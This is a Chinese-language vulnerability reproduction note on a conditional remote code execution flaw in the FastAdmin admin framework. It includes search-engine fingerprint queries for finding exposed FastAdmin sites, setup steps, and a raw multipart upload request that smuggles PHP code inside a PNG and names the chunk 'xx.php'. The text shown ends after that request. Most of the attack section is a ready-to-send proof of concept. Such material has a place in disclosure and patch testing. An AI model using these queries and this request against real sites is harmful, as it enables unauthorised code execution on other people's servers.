

# FastAdmin 远程代码执行漏洞

## 漏洞描述

FastAdmin 是一款基于 ThinkPHP 和 Bootstrap 的极速后台开发框架。FastAdmin 框架存在有条件 RCE 漏洞，当攻击者具有一定用户权限的前提下，可以实现任意文件上传，导致 RCE。

参考链接：

- https://mp.weixin.qq.com/s/otrH75ZjCHBQbRB7g5DdWg
- https://nosec.org/home/detail/4713.html

## 网络测绘

```
app="FASTADMIN-框架" || body="\"uploadurl\":\"ajax\/upload\"" || body="api.fastadmin.net" || body="\"fastadmin\":{\"usercenter\":true" || body="content=\"FastAdmin\"" || body="cdnurl\":\"\",\"version"|| icon_hash="-1036943727"
```

## 漏洞复现

前期准备：

1. 该接口至少需要普通用户权限，可以先在前台注册一个用户然后登录。
2. 需要修改默认配置才能使用分片上传功能。设置 application/extra/upload.php 下的 chunking 项为 true。
3. 可使用 application/index/controller/Ajax 下的 upload() 方法作为入口点。根据 tp5 的路由，访问该入口点的 url 为 index.php?s=index/ajax/upload。

上传头像处 post：

```
//传入xx.php
POST /index/ajax/upload HTTP/1.1
Host: target

------WebKitFormBoundarybw5c2a2bqlLLOMEU
Content-Disposition: form-data; name="file"; filename="Xnip2021-04-02_11-05-27.png"
Content-Type: application/octet-stream

PNG
...
<?php phpinfo();?>
------WebKitFormBoundarybw5c2a2bqlLLOMEU
Content-Disposition: form-data; name="chunkid"

xx.php

------WebKitFormBoundarybw5c2a2bqlLLOMEU
Content-Disposition: form-data; name="chunkindex"

0
------WebKitFormBoundarybw5c2a2bqlLLOMEU
```


